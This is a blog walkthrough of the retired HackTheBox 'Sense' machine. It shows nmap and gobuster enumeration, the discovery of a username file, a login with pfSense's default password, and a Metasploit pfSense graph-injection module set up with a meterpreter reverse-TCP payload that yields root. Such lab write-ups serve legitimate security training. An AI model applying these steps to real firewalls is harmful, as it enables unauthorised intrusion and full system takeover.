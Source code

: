 ```yaml
---
layout: post
title: "HackTheBox Sense Walkthrough"
date: 2018-03-24
---
```


With Sense now being retired, I can go ahead and post my first "on time" hackthebox walkthrough.

# 1 - Enumeration
Starting with Nmap, as always...
```
# Nmap 7.60 scan initiated Mon Mar 19 07:51:25 2018 as: nmap -p- -sC -sV -oA sense_full 10.10.10.60
Nmap scan report for 10.10.10.60
Host is up (0.049s latency).
Not shown: 65533 filtered ports
PORT    STATE SERVICE  VERSION
80/tcp  open  http     lighttpd 1.4.35
|_http-server-header: lighttpd/1.4.35
|_http-title: Did not follow redirect to https://10.10.10.60/
443/tcp open  ssl/http lighttpd 1.4.35
|_http-server-header: lighttpd/1.4.35
|_http-title: Login
| ssl-cert: Subject: commonName=Common Name (eg, YOUR name)/organizationName=CompanyName/stateOrProvinceName=Somewhere/countryName=US
| Not valid before: 2017-10-14T19:21:35
|_Not valid after:  2023-04-06T19:21:35
|_ssl-date: TLS randomness does not represent time

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Mon Mar 19 07:53:26 2018 -- 1 IP address (1 host up) scanned in 121.24 seconds
```
So, we have a webserver. Navigating to it in Firefox we find that it is running PFSense:
![PFSense[({{"/images/blog/sense/pfsense.jpg" | absolute_url }})

A quick searchsploit revealed quite a few interesting vulnerabilities. However, all of the
apparently useful exploits require authentication.

```
searchsploit pfsense
---------------------------------------------------------------------------------------------- ----------------------------------
 Exploit Title                                                                                |  Path
                                                                                              | (/usr/share/exploitdb/)
---------------------------------------------------------------------------------------------- ----------------------------------
pfSense - 'interfaces.php?if' Cross-Site Scripting                                            | exploits/hardware/remote/35071.txt
pfSense - 'pkg.php?xml' Cross-Site Scripting                                                  | exploits/hardware/remote/35069.txt
pfSense - 'pkg_edit.php?id' Cross-Site Scripting                                              | exploits/hardware/remote/35068.txt
pfSense - 'status_graph.php?if' Cross-Site Scripting                                          | exploits/hardware/remote/35070.txt
pfSense - Authenticated Group Member Remote Command Execution (Metasploit)                    | exploits/unix/remote/43193.rb
pfSense 2 Beta 4 - 'graph.php' Multiple Cross-Site Scripting Vulnerabilities                  | exploits/php/remote/34985.txt
pfSense 2.0.1 - Cross-Site Scripting / Cross-Site Request Forgery / Remote Command Execution  | exploits/php/webapps/23901.txt
pfSense 2.1 build 20130911-1816 - Directory Traversal                                         | exploits/php/webapps/31263.txt
pfSense 2.2 - Multiple Vulnerabilities                                                        | exploits/php/webapps/36506.txt
pfSense 2.2.5 - Directory Traversal                                                           | exploits/php/webapps/39038.txt
pfSense 2.3.1_1 - Command Execution                                                           | exploits/php/webapps/43128.txt
pfSense 2.3.2 - Cross-Site Scripting / Cross-Site Request Forgery                             | exploits/php/webapps/41501.txt
pfSense Community Edition 2.2.6 - Multiple Vulnerabilities                                    | exploits/php/webapps/39709.txt
pfSense Firewall 2.2.5 - Config File Cross-Site Request Forgery                               | exploits/php/webapps/39306.html
pfSense Firewall 2.2.6 - Services Cross-Site Request Forgery                                  | exploits/php/webapps/39695.txt
pfSense UTM Platform 2.0.1 - Cross-Site Scripting                                             | exploits/freebsd/webapps/24439.txt
---------------------------------------------------------------------------------------------- ----------------------------------
```

PFsense's default credentials (admin:pfsense) didn't work. Attempting to brute force the login ended with my ip being blacklisted. Apparently that is not the way we're supposed to get in...

#2 - Web Content Discovery
Considering that we have a RCE Metasploit vulnerability and we got blacklisted trying to brute force the login, we probably need to find some credentials. After a lot gobuster scans, I finally found what I needed.
```
Gobuster v1.2                OJ Reeves (@TheColonial)
=====================================================
[+] Mode         : dir
[+] Url/Domain   : http://10.10.10.60/
[+] Threads      : 50
[+] Wordlist     : /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt
[+] Status codes : 301,302,307,403,200,204
[+] Extensions   : .txt
[+] Follow Redir : true
[+] Expanded     : true
=====================================================
http://10.10.10.60/changelog.txt (Status: 200)
http://10.10.10.60/tree (Status: 200)
http://10.10.10.60/installer (Status: 200)
http://10.10.10.60/system-users.txt (Status: 200)
http://10.10.10.60/%7echeckout%7e (Status: 403)
=====================================================
```
Changelog.txt told us that 2 of 3 vulnerabilities. It definitely sounds like we're on the right track with a pfsense vulnerability.

system-users.txt revealed a username (rohit) and a hint at the password: "password: company defaults."

Logging in with rohit:pfsense granted access to pfsense!

#3 - Exploitation
Now that we had usable credentials, we could go ahead and try out that MSF module.
```
Module options (exploit/unix/http/pfsense_graph_injection_exec):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   PASSWORD  pfsense          yes       Password to login with
   Proxies                    no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOST     10.10.10.60      yes       The target address
   RPORT     443              yes       The target port (TCP)
   SSL       true             no        Negotiate SSL/TLS for outgoing connections
   USERNAME  rohit            yes       User to login with
   VHOST                      no        HTTP server virtual host


Payload options (php/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  10.10.X.X      yes       The listen address
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Automatic Target
```
And we get dropped into Sense as root!
```
meterpreter > getuid
Server username: root (0)
```
#4 - Closing Thoughts
Overall, I'd consider Sense a *** box. I'm generally not a fan of VMs that require the use of a specific list to find critical information about the machine (in this case the username). However, because I was stuck at that stage for so long, I spent a lot of effort formalizing my web content discovery process, and in retrospect that was a great learning experience. It was quite frustrating at the time though... Also, while you needed to use the right list for content discovery, it was not an unusual list. I can't really complain about that too much.

It is nice that Sense was a realistic machine. Getting blacklisted is a great touch, and I'm generally more a fan of boxes that are realistic than CTF style.